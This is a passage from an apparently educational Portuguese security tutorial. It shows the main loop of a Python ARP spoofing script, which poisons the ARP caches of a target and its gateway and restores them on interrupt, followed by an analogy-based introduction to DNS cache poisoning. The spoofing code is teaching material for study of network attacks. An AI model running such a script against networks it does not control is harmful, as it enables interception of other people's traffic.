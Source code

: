 ```
    send(packet)
    print ("ARP Table restored to normal for", targetip)

def main():
    targetip = input("Enter Target IP:")
    gatewayip = input("Enter Gateway IP:")

    try:
        targetmac = getmac(targetip)
    except:
         print("Target machine did not respond to ARP broadcast")
         quit()

    try:
        gatewaymac= getmac(gatewayip)
    except:
         print("Gateway is unreachable")
         quit()

    try:
        print ("Sending spoofed ARP replies")
        while True:
            time.sleep(5) 
            poisonarpcache(targetip, targetmac, gatewayip)
            poisonarpcache(gatewayip, gatewaymac, targetip)

    except KeyboardInterrupt:
        print ("ARP spoofing stopped")
        restorearp(gatewayip, gatewaymac, targetip, targetmac)
        restorearp(targetip, targetmac, gatewayip, gatewaymac)
        quit()

if __name__=="__main__":
    main()
```

## DNS Cache Poisoning
Comando: dig domínio

**Uma breve intuição de como funciona**
PARABÉNS!! Você acabou de passar na faculdade :). No seu primeiro dia, você pisa no ICMC e precisa ir para a sala 5-001 ter aula de Cálculo. Mas onde ela fica???

Para se achar lá dentro, você abre o Guia dos Bixos e vai rever como funciona a numeração das salas. Chegando lá, você vê tudo vazio e volta pra casa sem entender nada. A questão é: quem te falou que a aula seria nessa sala foi um veterano chatão que só quer ver fogo no parquinho e falou qualquer número.

O DNS Cache Poisoning funciona mais ou menos dessa forma. O atacante (veterano chatão) "envenena" o DNS Cache (nesse caso, a informação que você recebe), podendo redirecionar a vítima para qualquer site que ele quiser, normalmente malicioso.
